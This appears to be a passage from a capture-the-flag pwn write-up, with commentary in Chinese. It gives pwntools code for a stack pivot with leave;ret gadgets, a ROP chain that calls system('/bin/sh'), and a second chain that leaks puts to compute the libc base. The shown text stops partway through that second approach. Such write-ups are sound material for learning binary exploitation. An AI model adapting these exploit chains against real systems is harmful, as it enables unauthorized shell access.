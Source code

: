 ```bash
def dbg():
   gdb.attach(proc.pidof(p)[0])
   pause()

rdi = 0x00000000004013d3
leave_ret = 0x00000000004012d6

sla('num:\n','286129175')
ru('gift:')
stack = int(p.recv(14),16) 
li(hex(stack))

main = 0x4012D8
back = 0x40129B
read = 0x4012BA
system = 0x4010D4

pl = p64(rdi) + p64(stack+0x18) + p64(system) + b'/bin/sh\x00' + p64(stack-0x8) + p64(leave_ret) 
dbg()
p.sendline(pl)
```

‍

##### og 模板解法：

两次 leave\_ret，构造 read(0,stack-0x20,0x30)，重复的第二次是为了调整 rsp，控制程序流

```bash
pl = b'a'*0x20+p64(stack)+p64(read) #1
p.send(pl)

pl = b'a'*0x20+p64(stack+0x20)+p64(read) #2
p.send(pl)
```

接下来构造一次正常的 rop 链泄露 libc

```bash
pl = p64(stack+0x20+0x10)+p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(main) #3 
p.send(pl)

p.recv()

#libc_base = uu64(r(14))-libc.sym['puts']
libc_base = uu64(r(14))-0xa000000000000 -libc.sym['puts']
li(hex(libc_base))

system= libc_base + libc.sym['system'] 
bin_sh = libc_base + next(libc.search(b'/bin/sh'))
```

这里选择再跳转到 main 函数，接收到新的 stack 地址

```bash
sla('num:\n','286129175')

p.recvuntil('Success!!!\n')
ru('gift:')
stack0 = int(p.recv(14),16)
```
